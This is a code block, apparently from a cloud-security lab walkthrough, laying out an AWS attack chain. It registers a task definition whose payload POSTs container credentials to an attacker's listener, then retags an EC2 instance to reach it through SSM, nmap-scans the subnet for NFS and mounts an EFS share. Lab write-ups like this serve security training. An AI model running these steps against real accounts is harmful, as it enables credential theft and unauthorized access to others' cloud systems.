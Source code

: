 ```bash
    --generate-cli-skeleton \
    --profile ruse > task_template.json


# Now use task_def.json to fill out template.json with the desired payload.

# register the template to replace the currently running task.
register-task-definition --cli-input-json file://task_template.json --profile ruse
# Wait for the task to run and POST the credentials to your listener

# With the new creds add them to "ruse_box"
aws configure --profile ecs

# Modify admin ec2 tags
aws ec2 create-tags \
    --resources <INSTANCE ID> \
    --tags Key=StartSession, Value=true

# Using ecs creds start a session on admin ec2
aws ssm start-session \
    --target <INSTANCE ID> \
    --profile ecs


# Update the existing service in the ecs cluster to execute the payload.


# From the container credentilas use the SSM:StartSession privlage to access the admin_box.


# Port scan the subnet to find available efs and mount.
# Looking at the ec2 instances we see the admin ec2 only has a single port open. We Nmap scan this port.
nmap -Pn -P 2049 --open 10.10.10.0/24


# Mount discovered ec2
cd /mnt
sudo mkdir /efs
sudo mount -t nfs4 -o nfsvers=4.1,rsize=1048576,wsize=1048576,hard,timeo=600,retrans=2,noresvport <IP ADDRESS OF EFS>:/ efs

```
